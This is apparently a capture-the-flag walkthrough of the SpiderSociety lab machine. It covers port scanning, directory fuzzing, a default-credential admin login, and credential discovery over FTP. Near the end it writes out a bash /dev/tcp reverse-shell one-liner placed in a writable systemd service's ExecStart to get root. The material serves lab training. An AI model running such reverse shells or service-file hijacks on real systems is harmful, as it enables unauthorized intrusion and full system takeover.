Nmap scan
```sh
nmap -p- --min-rate 5000 -T4 -Pn 192.168.165.214
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-07 17:31 IST
Nmap scan report for 192.168.165.214
Host is up (0.059s latency).
Not shown: 55531 filtered tcp ports (no-response), 10001 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
2121/tcp open  ccproxy-ftp

Nmap done: 1 IP address (1 host up) scanned in 37.65 seconds
```

```sh
nmap -sC -sV -T4 -Pn -p 22,80,2121 192.168.165.214
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-07 17:32 IST
Nmap scan report for 192.168.165.214
Host is up (0.15s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f2:5a:a9:66:65:3e:d0:b8:9d:a5:16:8c:e8:16:37:e2 (ECDSA)
|_  256 9b:2d:1d:f8:13:74:ce:96:82:4e:19:35:f9:7e:1b:68 (ED25519)
80/tcp   open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Spider Society
2121/tcp open  ftp     vsftpd 3.0.5
Service Info: OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.00 seconds
```
## Web Enumeration — Digging Into the Site

Visiting `http://<target-ip>` revealed a web service. At this point, I added the following entries to `/etc/hosts`:


Both [http://offsec.lab](http://offsec.lab/) and [http://spidersociety.offsec.lab](http://spidersociety.offsec.lab/) pointed to the same interface, which hinted at possible virtual hosts.

## 🏷️ VHost Fuzzing — Looking for Subdomains

I ran a virtual host fuzz with `ffuf`to see if there were any hidden subdomains:
```sh
ffuf -w subdomains-top1million-110000.txt -u http://offsec.lab/ -H "Host: FUZZ.offsec.lab" -ac
```
No luck there. Nothing juicy turned up, so I pivoted to directory fuzzing.

## 📂 Directory Discovery — Jackpot Admin Panel

Tried several wordlists, but this one gave me something interesting:

We don’t get a lot of useful information from this wordlist. But if we try another bigger wordlist, it seems like we get another hit.

Boom — found an admin login page. First thing I tried: `admin:admin`

Classic. And it worked! From the dashboard, I clicked into the `Communications`section to dig further.


## 🔐 Service Hunting — SSH & FTP

Tried `ssh`next, but the creds didn’t work there. Switched to `ftp`— and it let me in.
```sh
ftp ss_ftpbckuser@offsec.lab -P 2121
```
Inside the `libspider`directory, I found a strange hidden file with a long, random-looking name:



It definitely looked suspicious, but I couldn’t read it with `less` or download it using `get`. I then tried accessing it with `curl`—and finally got a meaningful response.
**Method 1**


**Method 2**
In one of the files, it lists a path to the credentials file.


If we navigate to http://192.168.165.214/libspider/.fuhfjkzbdsfuybefzmdbbzdcbhjzdbcukbdvbsdvuibdvnbdvenv, we come across another set of credentials.


## 🧑‍💻 SSH Login — We’re In

Logged into the box via `ssh`using the above creds.

Captured local flag.


### Privilege Escalation
Once inside, I checked for `sudo`privileges:

We see that we have sudo permissions to restart a spiderbackup.service file. We can do a quick search to see if such a file exists.


Now, we verify if we have sufficient permissions over the file. If we can replace it with a malicious file, we might be able to use this to escalate privileges.



I edited it to spawn a reverse shell.
Since we can directly write into the file, we can use nano to edit the ExecStart field, replacing it with a one-liner to grant us a reverse shell.
```sh
/bin/bash -c '/bin/sh -i >& /dev/tcp/192.168.45.240/4444 0>&1'
```


Before restarting the spiderbackup.service file, we are notified that we have to run “systemctl daemon-reload”.



### What `systemctl daemon-reload` Does

Command:

sudo /bin/systemctl daemon-reload

This tells **systemd**:

> “Reload all service unit files because something has changed.”

Systemd **does not continuously read service files**.  
Instead, it **loads them into memory once** when the system starts.

So it keeps a **cached version** of the service configuration.

### What Happens in Your Scenario

You modified this file:

/etc/systemd/system/spiderbackup.service

You changed:

ExecStart=/usr/local/bin/spiderbackup.sh

to

ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'

But systemd is still using the old configuration stored in memory.

### Without `daemon-reload`

If you run only:

sudo systemctl restart spiderbackup.service

systemd will restart the service using the **old cached command**:

ExecStart=/usr/local/bin/spiderbackup.sh

Your reverse shell **will not run**.

### What `daemon-reload` Fixes

When you run:

sudo systemctl daemon-reload

systemd:

1. Re-reads all service files

2. Updates its internal cache

3. Registers the new `ExecStart`


Now systemd knows:

ExecStart=/bin/bash -c 'reverse shell'

### Then Restart Executes the Malicious Command

Now you run:

sudo systemctl restart spiderbackup.service

systemd executes the **updated service configuration**, which triggers:

bash -i >& /dev/tcp/ATTACKER_IP/PORT

And you receive a **root reverse shell**.

**### Reference links :**

https://medium.com/@hxlxmj/%EF%B8%8F-spidersociety-a-full-walkthrough-395ed6cd13f4

https://medium.com/@dumbangrydog/pg-practice-spidersociety-linux-957ae1de0184
